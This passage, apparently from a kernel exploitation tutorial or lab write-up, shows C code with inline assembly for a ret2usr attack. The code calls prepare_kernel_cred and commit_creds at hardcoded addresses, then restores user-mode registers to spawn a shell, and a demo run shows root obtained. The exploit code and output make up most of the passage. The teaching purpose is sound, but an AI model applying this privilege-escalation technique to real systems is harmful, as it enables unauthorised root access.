 ```c
uint64_t user_rip = (uint64_t) get_shell;

void escalate() {
    __asm__(
        ".intel_syntax noprefix;"
        "xor rdi, rdi;"
        "movabs rcx, 0xffffffff81066fa0;"   // prepare_kernel_cred
	"call rcx;"
        
        "mov rdi, rax;"
	"movabs rcx, 0xffffffff81066e00;"   // commit_creds
	"call rcx;"

        // restore all the registers
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_rsp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
```

Here the GS, CS, SS, RSP and RFLAGS registers are restored to bring us back to user mode (GS via the `swapgs` instruction). The RIP register is updated to point to `get_shell` and pop a shell.&#x20;

If we compile it statically and load it into the `initramfs.cpio`, notice that our privileges are elevated!

```
$ gcc -static -o exploit exploit.c
[...]
$ ./run.sh
~ $ ./exploit 
[*] Saving state
[+] Saved state
FD: 3
[*] Returned to userland
~ # id
uid=0(root) gid=0(root)
```

We have successfully exploited a ret2usr!

### Understanding the restoration
